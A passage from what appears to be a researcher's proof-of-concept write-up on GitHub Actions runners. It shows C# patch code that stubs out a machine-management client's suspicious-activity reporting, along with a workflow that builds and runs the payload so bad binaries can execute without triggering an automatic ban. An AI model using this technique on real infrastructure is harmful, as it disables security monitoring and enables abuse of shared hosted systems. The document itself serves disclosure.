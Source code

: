 ```csharp
    )
    {
        var token = Convert.ToHexString(postRegistrationAccessToken);
        NetworkLogger.GetInstance().Write($"MachineManagementClient // ReportSuspiciousActivityAsync({requestId}, {token}, {suspiciousActivity}, {poolName}, {instanceName})");
        __result = new Task(() => {
            //replace task with nothing
        }); 
        return false; //don't call MachineManagementClient.ReportSuspiciousActivityAsync(...)
    }
}
```

You can see full code at [`projects/csharp/patcher/patcher/Main.cs`](projects/csharp/patcher/patcher/Main.cs)

### How to run PoC on GitHub Actions VM?

I made a complete project which has the file [`.github/workflows/build.yml`](.github/workflows/build.yml) to do this.
You can upload it to GitHub, then it will automatically run action that's builds payload from sources, runs local python
server and exits after 15 minutes.

If you want to repeat this, you can do as in the screenshot:
![16_how_to_build_and_test_poc](assets/16_how_to_build_and_test_poc.png)

### Conclusion

In theory, a hacker can do a lot of bad things knowing such an attack vector. I just showed a proof of concept that
allows a hacker to bypass Virtual Environment Provisioner restrictions to execute bad binaries without immediately ban
by your automatic security system.

![cat](assets/cat.jpg)
